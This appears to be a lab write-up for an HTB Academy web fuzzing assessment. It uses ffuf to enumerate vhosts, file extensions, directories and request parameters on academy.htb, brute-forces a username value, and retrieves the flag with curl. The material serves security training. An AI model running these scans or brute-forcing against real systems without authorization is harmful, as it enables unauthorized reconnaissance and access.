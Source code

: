 # Skills Assessment - Web Fuzzing

### Run a sub-domain/vhost fuzzing scan on '\*.academy.htb' for the IP shown above. What are all the sub-domains you can identify? (Only write the sub-domain name)



Subdomain fuzzing didn't lead to any results. Ffuf ran for over 30 min and ended up returning just errors. You might want skip to vhost fuzzing and save some time :thumbsup:

{% code title="Subdomain fuzzing" overflow="wrap" %}
```shell
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.academy.htb/
```
{% endcode %}

With vhost fuzzing I notice a pattern, so I decided to add the flag `-fs 985` to see if I catch something interesting .

{% code title="VHost fuzzing" overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:46699 -H 'Host: FUZZ.academy.htb' -fs 985
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we successfully enumerate three VHosts!

### Before you run your page fuzzing scan, you should first run an extension fuzzing scan. What are the different extensions accepted by the domains?



{% code overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://test.academy.htb:46699/indexFUZZ 

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://archive.academy.htb:46699/indexFUZZ 

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://faculty.academy.htb:46699/indexFUZZ 
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### One of the pages you will identify should say 'You don't have access!'. What is the full page URL?

{% hint style="info" %}
Note: the port changed to 33056 because I had to reset the target :smile:
{% endhint %}

In order to find the correct answer I had to fuzz each subdomain and their respective extensions.

To find the correct page I used the following command:

{% code overflow="wrap" %}
```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:33056/FUZZ -ic -recursion -recursion-depth 1 -e .php7 -v
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### In the page from the previous question, you should be able to find multiple parameters that are accepted by the page. What are they?

#### Get method

{% code overflow="wrap" %}
```sh
fuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:33056/courses/linux-security.php7?FUZZ=key -fs 774
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>user parameter found</p></figcaption></figure>

#### Post method

{% code overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:33056/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>user and username parameter found</p></figcaption></figure>

And with the Post method we fuzzed two parameters, user and username

### Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?

{% hint style="info" %}
To complete this challenge we have to user a username [list](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/malenames-usa-top1000.txt)
{% endhint %}



{% code overflow="wrap" %}
```sh
ffuf -w /opt/useful/SecLists/Usernames/Names/malenames-usa-top1000.txt:FUZZ -u http://faculty.academy.htb:33056/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -v -fs 781

```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Username found</p></figcaption></figure>

Now to see the content of the page we use the curl command to retrieve the HTML code

{% code overflow="wrap" %}
```sh
curl http://faculty.academy.htb:33056/courses/linux-security.php7 -X POST -d 'username=HARRY' 'Content-Type: application/x-www-form-urlencoded'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption><p>Flag found</p></figcaption></figure>

As you can see we found the last flag!
